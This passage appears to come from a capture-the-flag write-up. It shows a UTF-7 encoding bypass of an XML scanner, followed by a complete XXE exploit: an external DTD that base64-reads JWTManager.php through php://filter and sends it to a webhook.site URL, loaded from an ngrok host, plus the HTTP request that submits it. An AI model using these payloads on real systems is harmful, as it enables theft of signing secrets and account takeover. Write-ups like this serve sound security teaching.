 After passing through the `scan` function, it becomes exploitable:
```xml
<?xml version=\"1.0\" encoding=\"UTF-7\" standalone=\"yes\"?>
+-ADw-!DOCTYPE order [ <!ENTITY % pe SYSTEM \"https://5515-81-64-59-65.ngrok-free.app/exploit.dtd\"> %pe; %param1; ]>
<order>
<shipping_address>
<name>poc</name>
<address>&external;</address>
<zipcode>poc</zipcode>
<city>poc</city>
<country>poc</country>
<phone>poc</phone>
</shipping_address>
</order>
```

Using the bypass discovered in `XmlScanner.php`, we can access the file `JWTManager.php` which contains the secret key used to sign JWTs. However, to retrieve its contents, we must perform an Out Of Band (OOB) request since the response content is not directly returned.

We use a webhook to capture the file’s contents.

<ins>File: </ins> `exploit.dtd`

```xml
<!ENTITY % stuff SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/src/Auth/JWTManager.php">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'https://webhook.site/56767caf-e9b4-42af-b1d4-24f7b419cbd4?data=%stuff;'>">
```

<ins>File: </ins> `exploit.xml`

```xml
<?xml version=\"1.0\" encoencoding=\"UTF7\"ding=\"UTF-7\" standalone=\"yes\"?>+-ADw-!DOCTYPE order [ <!ENTITY % pe SYSTEM \"https://5515-81-64-59-65.ngrok-free.app/exploit.dtd\"> %pe; %param1; ]><order><shipping_address><name>poc</name><address>&external;</address><zipcode>poc</zipcode><city>poc</city><country>poc</country><phone>poc</phone></shipping_address></order>
```

The HTTP request to submit the order is as follows.

<ins>Request (HTTP):</ins>

```http
POST /api/orders/submit HTTP/1.1
Host: localhost
Content-Type: application/json
Authorization: Bearer <JWT Token>

{"xml":"<?xml version=\"1.0\" encoencoding=\"UTF7\"ding=\"UTF-7\" standalone=\"yes\"?>+-ADw-!DOCTYPE order [ <!ENTITY % pe SYSTEM \"https://5515-81-64-59-65.ngrok-free.app/exploit.dtd\"> %pe; %param1; ]><order><shipping_address><name>poc</name><address>&external;</address><zipcode>poc</zipcode><city>poc</city><country>poc</country><phone>poc</phone></shipping_address></order>","id":1}
```
